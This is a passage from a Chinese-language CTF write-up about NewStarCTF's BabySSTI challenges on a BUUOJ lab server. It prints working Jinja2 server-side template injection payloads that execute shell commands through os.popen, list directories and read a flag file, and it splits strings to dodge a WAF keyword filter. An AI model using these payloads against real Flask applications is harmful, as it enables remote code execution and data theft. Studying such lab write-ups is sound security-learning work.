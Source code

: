 成功了, 已经可以执行命令。

之后检查一下路径:

```python
http://b87c4760-3fa1-4003-b490-4f635427511b.node5.buuoj.cn:81/?name={{self.__getattribute__('__i'+'nit__').__globals__.__builtins__['__import__']('os').popen('ls ../').read()}} 
```

![3-4.png](3-4.png)

接着尝试读这个 flag_in_here, 结果被 WAF 挡了, 可能是 flag 被过滤了, 用拼接字符串:

```python
http://b87c4760-3fa1-4003-b490-4f635427511b.node5.buuoj.cn:81/?name={{self.__getattribute__('__i'+'nit__').__globals__.__builtins__['__import__']('os').popen('ca'+'t ../fla'+'g_in_here').read()}} 
```

![3-5.png](3-5.png)

拿到flag : flag{3140293f-b827-499d-b02c-7daaff59d68a}

#### [NewStarCTF 公开赛赛道]BabySSTI_Two

首先还是用 `{{7*'7'}}`, 发现是 Flask + Jinja2:

![4-1.png](4-1.png)

尝试上一题的 payload, 发现 `__getattribute__()` 也被过滤了, 以及 `init`, `mro`, `class`, `attr`. 

尝试通过 `''['__ini'+'t__']` 拼接, 以及十六进制编码, 发现也被过滤;
